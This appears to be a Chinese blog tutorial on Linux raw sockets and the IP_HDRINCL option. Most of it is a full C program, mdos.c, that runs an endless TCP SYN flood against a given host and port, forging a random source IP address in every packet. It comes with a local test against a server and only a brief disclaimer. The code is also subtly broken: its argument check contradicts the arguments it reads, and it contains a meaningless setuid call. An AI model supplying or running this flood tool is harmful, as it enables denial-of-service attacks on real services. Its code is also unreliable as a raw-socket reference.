







在开发面向连接的TCP和面向无连接的UDP程序时，我们所关心的核心问题在于数据收发层面，数据的传输特性由TCP或UDP来保证：  
  
    也就是说，对于TCP或UDP的程序开发，焦点在Data字段，我们没法直接对TCP或UDP头部字段进行赤裸裸的修改，当然还有IP头。换句话说，我们对它们头部操作的空间非常受限，只能使用它们已经开放给我们的诸如源、目的IP，源、目的端口等等。  
    今天我们讨论一下原始套接字的程序开发，用它作为入门协议栈的进阶跳板太合适不过了。OK闲话不多说，进入正题。  
    原始套接字的创建方法也不难：`socket(AF_INET, SOCK_RAW, protocol)`。  
    重点在protocol字段，这里就不能简单的将其值为0了。在头文件`netinet/in.h`中定义了系统中该字段目前能取的值，注意：有些系统中不一定实现了`netinet/in.h中的所有协议。源代码的linux/in.h`中和`netinet/in.h`中的内容一样。  
       
     我们常见的有IPPROTO_TCP，IPPROTO_UDP和IPPROTO_ICMP，在博文“[(十六)洞悉linux下的Netfilter&iptables：开发自己的hook函数【实战】(下)](http://blog.chinaunix.net/uid-23069658-id-3245853.html) ”中我们见到该protocol字段为IPPROTO_RAW时的情形，后面我们会详细介绍。  
     用这种方式我就可以得到原始的IP包了，然后就可以自定义IP所承载的具体协议类型，如TCP，UDP或ICMP，并手动对每种承载在IP协议之上的报文进行填充。接下来我们看个最著名的例子DOS攻击的示例代码，以便大家更好的理解如何基于原始套接字手动去封装我们所需要TCP报文。  
     先简单复习一下TCP报文的格式，因为我们本身不是讲协议的设计思想，所以只会提及和我们接下来主题相关的字段，如果想对TCP协议原理进行深入了解那么《TCP/IP详解卷1》无疑是最好的选择。  
       
     我们目前主要关注上面着色部分的字段就OK了，接下来再看看TCP3次握手的过程。TCP的3次握手的一般流程是：  
    1. 第一次握手：建立连接时，客户端A发送SYN包(SEQ_NUMBER=j)到服务器B，并进入SYN_SEND状态，等待服务器B确认。  
    2. 第二次握手：服务器B收到SYN包，必须确认客户A的SYN(ACK_NUMBER=j+1)，同时自己也发送一个SYN包(SEQ_NUMBER=k)，即SYN+ACK包，此时服务器B进入SYN_RECV状态。  
    3. 第三次握手：客户端A收到服务器B的SYN＋ACK包，向服务器B发送确认包ACK(ACK_NUMBER=k+1)，此包发送完毕，客户端A和服务器B进入ESTABLISHED状态，完成三次握手。  
    至此3次握手结束，TCP通路就建立起来了，然后客户端与服务器开始交互数据。上面描述过程中，SYN包表示TCP数据包的标志位syn=1，同理，ACK表示TCP报文中标志位ack=1，SYN+ACK表示标志位syn=1和ack=1同时成立。  
     原始套接字还提供了一个非常有用的参数IP_HDRINCL：  
1. 当开启该参数时：我们可以从IP报文首部第一个字节开始依次构造整个IP报文的所有选项，但是IP报文头部中的标识字段(设置为0时)和IP首部校验和字段总是由内核自己维护的，不需要我们关心。  
2. 如果不开启该参数：我们所构造的报文是从IP首部之后的第一个字节开始，IP首部由内核自己维护，首部中的协议字段被设置成调用socket()函数时我们所传递给它的第三个参数。  
开启IP_HDRINCL特性的模板代码一般为：
```c++
const int on =1;
if (setsockopt (sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0){
    printf("setsockopt error!\n");
}
```
 所以，我们还得复习一下IP报文的首部格式：  
   
同样，我们重点关注IP首部中的着色部分区段的填充情况。  
有了上面的知识做铺垫，接下来DOS示例代码的编写就相当简单了。我们来体验一下手动构造原生态IP报文的乐趣吧：  
```c++
//mdos.c
#include <stdlib.h>
#include <stdio.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <linux/tcp.h>

//我们自己写的攻击函数
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport);
//如果什么都让内核做，那岂不是忒不爽了，咱也试着计算一下校验和。
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv){
        int skfd;
        struct sockaddr_in target;
        struct hostent *host;
        const int on=1;
        unsigned short srcport;

        if(argc!=2)
        {
                printf("Usage:%s target dstport srcport\n",argv[0]);
                exit(1);
        }

        bzero(&target,sizeof(struct sockaddr_in));
        target.sin_family=AF_INET;
        target.sin_port=htons(atoi(argv[2]));

        if(inet_aton(argv[1],&target.sin_addr)==0)
        {
                host=gethostbyname(argv[1]);
                if(host==NULL)
                {
                        printf("TargetName Error:%s\n",hstrerror(h_errno));
                        exit(1);
                }
                target.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        }

        //将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
        if(0>(skfd=socket(AF_INET,SOCK_RAW,IPPROTO_TCP))){
                perror("Create Error");
                exit(1);
        }

        //用模板代码来开启IP_HDRINCL特性，我们完全自己手动构造IP报文
         if(0>setsockopt(skfd,IPPROTO_IP,IP_HDRINCL,&on,sizeof(on))){
                perror("IP_HDRINCL failed");
                exit(1);
        }

        //因为只有root用户才可以play with raw socket :)
        setuid(getpid());
        srcport = atoi(argv[3]);
        attack(skfd,&target,srcport);
}

//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport){
        char buf[128]={0};
        struct ip *ip;
        struct tcphdr *tcp;
        int ip_len;

        //在我们TCP的报文中Data没有字段，所以整个IP报文的长度
        ip_len = sizeof(struct ip)+sizeof(struct tcphdr);
        //开始填充IP首部
        ip=(struct ip*)buf;

        ip->ip_v = IPVERSION;
        ip->ip_hl = sizeof(struct ip)>>2;
        ip->ip_tos = 0;
        ip->ip_len = htons(ip_len);
        ip->ip_id=0;
        ip->ip_off=0;
        ip->ip_ttl=MAXTTL;
        ip->ip_p=IPPROTO_TCP;
        ip->ip_sum=0;
        ip->ip_dst=target->sin_addr;

        //开始填充TCP首部
        tcp = (struct tcphdr*)(buf+sizeof(struct ip));
        tcp->source = htons(srcport);
        tcp->dest = target->sin_port;
        tcp->seq = random();
        tcp->doff = 5;
        tcp->syn = 1;
        tcp->check = 0;

        while(1){
                //源地址伪造，我们随便任意生成个地址，让服务器一直等待下去
                ip->ip_src.s_addr = random();
                tcp->check=check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
                sendto(skfd,buf,ip_len,0,(struct sockaddr*)target,sizeof(struct sockaddr_in));
        }
}

//关于CRC校验和的计算，网上一大堆，我就“拿来主义”了
unsigned short check_sum(unsigned short *addr,int len){
        register int nleft=len;
        register int sum=0;
        register short *w=addr;
        short answer=0;

        while(nleft>1)
        {
                sum+=*w++;
                nleft-=2;
        }
        if(nleft==1)
        {
                *(unsigned char *)(&answer)=*(unsigned char *)w;
                sum+=answer;
        }

        sum=(sum>>16)+(sum&0xffff);
        sum+=(sum>>16);
        answer=~sum;
        return(answer);
}
```
用前面我们自己编写TCP服务器端程序来做本地测试，看看效果。先把服务器端程序启动起来，如下：  
  
然后，我们编写的“捣蛋”程序登场了：  
  

该`mdos`命令执行一段时间后，服务器端的输出如下：  
  
  因为我们的源IP地址是随机生成的，源端口固定为8888，服务器端收到我们的SYN报文后，会为其分配一条连接资源，并将该连接的状态置为SYN_RECV，然后给客户端回送一个确认，并要求客户端再次确认，可我们却不再bird别个了，这样就会造成服务端一直等待直到超时。  
  备注：本程序仅供交流分享使用，不要做恶，不然后果自负哦。  
  最后补充一点，看到很多新手经常对`struct ip{}`和`struct iphdr{}`，`struct icmp{}`和`struct icmphdr{}`纠结来纠结去了，不知道何时该用哪个。在`/usr/include/netinet`目录这些结构所属头文件的定义，头文件中对这些结构也做了很明确的说明，这里我们简单总结一下：    
   `struct ip{}`、`struct icmp{}`是供BSD系统层使用，`struct iphdr{}`和`struct icmphdr{}`是在INET层调用。同理`tcphdr`和`udphdr`分别都已经和谐统一了，参见`tcp.h`和`udp.h`。  
    BSD和INET的解释在协议栈篇章详细论述，这里大家可以简单这样来理解：我们在用户空间的编写网络应用程序的层次就叫做BSD层。所以我们该用什么样的数据结构呢？良好的编程习惯当然是BSD层推荐我们使用的，`struct ip{}`、`struct icmp{}`。至于INET层的两个同类型的结构体`struct iphdr{}`和`struct icmphdr{}`能用不？我只能说不建议。看个例子：  
      
    我们可以看到无论BSD还是INET层的IP数据包结构体大小是相等的，ICMP报文的大小有差异。而我们知道ICMP报头应该是8字节，那么BSD层为什么是28字节呢？留给大家思考。也就是说，我们这个`mdos.c`的实例程序中除了用`struct ip{}`之外还可以用INET层的`struct iphdr{}`结构。将如下代码：  
```c++
struct ip *ip;
…
ip=(struct ip*)buf;
ip->ip_v = IPVERSION;
ip->ip_hl = sizeof(struct ip)>>2;
ip->ip_tos = 0;
ip->ip_len = htons(ip_len);
ip->ip_id=0;
ip->ip_off=0;
ip->ip_ttl=MAXTTL;
ip->ip_p=IPPROTO_TCP;
ip->ip_sum=0;
ip->ip_dst=target->sin_addr;
…
ip->ip_src.s_addr = random();
```
改成：  
```c++
struct iphdr *ip;
…
ip=(struct iphdr*)buf;
ip->version = IPVERSION;
ip->ihl = sizeof(struct ip)>>2;
ip->tos = 0;
ip->tot_len = htons(ip_len);
ip->id=0;
ip->frag_off=0;
ip->ttl=MAXTTL;
ip->protocol=IPPROTO_TCP;
ip->check=0;
ip->daddr=target->sin_addr.s_addr;
…
ip->saddr = random();
```
结果请童鞋们自己验证。虽然结果一样，但在BSD层直接使用INET层的数据结构还是不被推荐的。  
小结：  
1. IP_HDRINCL选项可以使我们控制到底是要从IP头部第一个字节开始构造我们的原始报文或者从IP头部之后第一个数据字节开始。
2. 只有超级用户才能创建原始套接字。
3. 原始套接字上也可以调用connet、bind之类的函数，但都不常见。原因请大家回顾一下这两个函数的作用。想不起来的童鞋回头复习一下前两篇的内容吧。

